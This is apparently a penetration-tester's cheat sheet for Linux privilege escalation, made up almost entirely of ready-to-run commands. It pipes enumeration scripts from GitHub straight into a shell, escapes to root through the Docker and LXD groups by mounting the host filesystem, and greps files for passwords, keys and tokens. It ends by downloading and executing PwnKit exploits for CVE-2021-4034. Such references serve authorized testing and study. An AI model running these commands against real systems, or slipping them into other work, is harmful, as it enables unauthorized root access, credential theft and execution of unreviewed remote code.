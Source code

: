 # Linux Privilege Escalation

## Tools

#### [LinPEAS](https://github.com/peass-ng/PEASS-ng)

```bash
curl -sL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

#### [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

```bash
curl -sL https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh | bash
```

#### [LinEnum](https://github.com/rebootuser/LinEnum)

```bash
curl -sL https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

## System Info

Obtain information about the system **architecture, distribution, and kernel version**.

```bash
uname -a  # System information
lsb_release -a  # Distribution information
getconf LONG_BIT  # System architecture
cat /proc/version  # Kernel version
cat /etc/os-release  # OS details
```

## Path

Check if you have **write permissions** for any directory in the PATH.

```bash
echo $PATH | tr ':' '\n' | sort -u | xargs -I{} bash -c 'if [ -w "{}" ]; then echo "[+] {}"; fi'
```

## Enviroment Variables

Sometimes we can find password or sensitive information in enviroment variables.

```bash
env  # Environment variables
set  # Shell variables
```

## Groups

List all the groups users belongs to.

```bash
id [user]
groups [user]
```

### Docker

If you belong to the **Docker group**, you could **mount the filesystem** within a container and have full access to it, allowing you to modify it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### LXD/LXC

Similar to Docker, with **LXD/LXC**, we can also **mount the filesystem** within a container, granting full access to it.

{% code overflow="wrap" %}
```bash
# On your machine, download and build an alpine image and transfer it to the host
git clone https://github.com/saghul/lxd-alpine-builder && cd lxd-alpine-builder && sudo ./build-alpine
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash"><strong># Import the image
</strong>lxc image import ./alpine.tar.gz --alias privimg
# Initialize
lxd init
# Create the containter
lxc init privimg privcont -c security.privileged=true
# Mount the filesystem
lxc config device add privcont privdev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start privcont
# Interactive shell
lxc exec privcont /bin/sh
</code></pre>

## Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
# List user privileges
sudo -l
# Version
sudo -V | grep "Sudo ver"
```

## Capabilities <a href="#capabilities" id="capabilities"></a>

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

```bash
getcap -r / 2>/dev/null
```

## SUID

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

## Open Ports

```bash
ss -nltp
netstat -punta
```

## Cron Jobs

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs)

```bash
crontab -l
find / -name "cron*" 2>/dev/null
ls -l /var/log/syslog
ls -l /var/log/cron
```

## Process Monitor

{% hint style="info" %}
You can add words to the blacklist on the `grep -Ev` section.
{% endhint %}

{% code overflow="wrap" %}
```bash
old_ps=$(ps -eo user,command); while true; do new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" | grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```
{% endcode %}

## Writable Scripts

```bash
find / -user <USER> -writable \( -name "*.sh" -o -name "*.py" \) -type f 2>/dev/null
```

## Passwords

{% code overflow="wrap" %}
```bash
grep -Eriao --color=always '(password|passwd|pass|pwd|key|secret|token)[[:space:]]*[:=][[:space:]]*[^[:space:]]{6,}' . | awk '{ line = $0; sub(/^[^:]*:[^:]*:/, "", line); if (!seen[line]++) print $0; }'
```
{% endcode %}

## Exploits

### Polkit - (CVE-2021-4034)

[https://github.com/Almorabea/pkexec-exploit/tree/main](https://github.com/ly4k/PwnKit/tree/main)

{% code overflow="wrap" %}
```bash
curl -sL https://raw.githubusercontent.com/Almorabea/pkexec-exploit/main/CVE-2021-4034.py -o PwnKit.py && python3 PwnKit.py
```
{% endcode %}

[https://github.com/ly4k/PwnKit/tree/main](https://github.com/ly4k/PwnKit/tree/main)

{% code overflow="wrap" %}
```bash
curl -sL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit && chmod +x PwnKit && ./PwnKit
```
{% endcode %}
